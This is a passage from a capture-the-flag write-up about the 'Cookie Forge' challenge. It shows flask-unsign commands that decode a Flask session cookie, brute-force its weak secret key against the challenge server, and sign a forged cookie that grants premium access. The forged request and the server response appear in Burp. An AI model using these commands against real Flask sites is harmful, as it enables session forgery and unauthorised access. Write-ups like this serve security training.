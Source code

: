We where probably supposed to do some XSS to get the flag but we got it either
way.

    :::text
    $ echo -ne 'ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99' | base64 -d
    flag{x55_i5Nt_7hA7_bAD_R1Gh7?}[


## Cookie Forge

> Help a new local cookie bakery startup shake down their new online ordering and loyalty rewards portal at cookie-forge.cha.hackpack.club!

> I wonder if they will sell you a Flask of milk to go with your cookies...

The website is using flask. A page is reserved for premium member.

We know that [flask cookie have some issues](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce).

We place an order. Login as `toto:toto` get the cookie and pass it to
`flask-unsign`. The tool can decode it as the secret is only use to sign the
cookie.

    :::text
    $flask-unsign -d -c 'eyJmbGFnc2hpcCI6ZmFsc2UsInVzZXJuYW1lIjoidG90byJ9.Xp2SeA.1l6nDFaIsDZ8bCXcxdtORRVIBK0'
    {'flagship': False, 'username': 'toto'}

We need to get the secret to forge our own cookie

    :::text
    $ flask-unsign --server https://cookie-forge.cha.hackpack.club/orders --unsign
    [*] Server returned HTTP 302 (Found)
    [+] Successfully obtained session cookie: eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIllvdSBtdXN0IGxvZyBpbiBmaXJzdCEiXX1dfQ.Xp2TwA.IiGnkGfSx0j-O_vLTjmUyU95zLQ
    [*] Session decodes to: {'_flashes': [('warning', 'You must log in first!')]}
    [*] No wordlist selected, falling back to default wordlist..
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 39090 attempts
    'password1'

We modify the `flagship` value and sign our cookie with the secret `password1`

    :::text
    $ flask-unsign --sign --secret password1 --cookie "{'flagship': True, 'username': 'toto'}"
    eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJ0b3RvIn0.Xp2TRQ.XlXCKJYANDb9ghp5ms_fKQhTkVY

Using Burp repeater we modify our cookie to get the flag

    :::text
    GET /flag HTTP/1.1
    Host: cookie-forge.cha.hackpack.club
    Cookie: session=eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJ0b3RvIn0.Xp2TRQ.XlXCKJYANDb9ghp5ms_fKQhTkVY
    Upgrade-Insecure-Requests: 1


    HTTP/1.1 200 OK
    Content-Length: 2617
    Content-Type: text/html; charset=utf-8
    Date: Mon, 20 Apr 2020 12:26:22 GMT
    Server: meinheld/1.0.1
    Vary: Cookie
    <SNIP>
    <p>You are a <em>special</em> customer!
        To come back for more, sugar-coma after sugar-coma, in the face of mounting pressure from your doctors,
        your family, and your own common sense&hellip;
        <strong>That's</strong> dedication.
    </p>